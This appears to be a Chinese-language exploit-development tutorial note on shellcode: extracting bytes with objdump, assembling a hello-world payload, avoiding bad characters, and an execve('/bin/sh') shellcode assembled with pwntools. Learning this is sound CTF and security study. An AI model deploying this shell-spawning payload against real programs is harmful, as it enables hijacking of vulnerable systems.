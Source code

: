 ### 提取shellcode

```bash
objdump -M intel -D file_path | grep '[0-9a-f]:' | grep -v 'file' | cut -f2 -d: | cut -f1-7 -d' ' | tr -s ' ' | tr '\t' ' ' | sed 's/ $//g' | sed 's/ /\\\x/g' | paste -d '' -s
```

```shell
# 创建一个名为 shellcode.asm 的文件，将上述汇编代码复制到该文件中
cat << EOF > shellcode.asm
mov rax, 1
mov rdi, 1
lea rsi, [rip+hello_world]
mov rdx, 12
syscall
hello_world: db 'hello world',0xa
EOF

# 使用 NASM 汇编器将汇编代码转换为目标文件
nasm -f elf64 shellcode.asm -o shellcode.o

# 使用 objcopy 工具将目标文件转换为二进制文件
objcopy -O binary shellcode.o shellcode.bin

# 使用 xxd 工具将二进制文件转换为十六进制字符串
xxd -p -c 256 shellcode.bin
```

### 消除bad character

然后要删去bad character。

可以通过查看别人写的shellcode来看看有没有对应的改写方法。

针对这种的 `mov eax,0x1`，可以使用对寄存器的一部分赋值实现，比如：`mov al,0x1`

还可以通过 `xor rax,rax` 先把 rax 置为 0，然后 `add rax,0x1` 实现

## 使用shellcode

shellcode本质就是一段汇编指令，要执行它，就必须把它放在可执行的区域，如bss，如没有开启NX的栈上面，然后把程序执行流控制到shellcode开始的地方，接下来执行shellcode

## 例子

得到shellcode：

```python
#char *const argv[]={"/bin/sh",NULL};
#execve("/bin/sh",argv,NULL);

shellcode = '''
xor rax,rax
push rax
mov rdx,rsp
mov rbx,0x68732f6e69622f2f
push rbx
mov rdi,rsp
push rax   
push rdi
mov rsi,rsp
add rax,59
syscall
'''
payload = asm(shellcode)

#利用工具直接生成。
```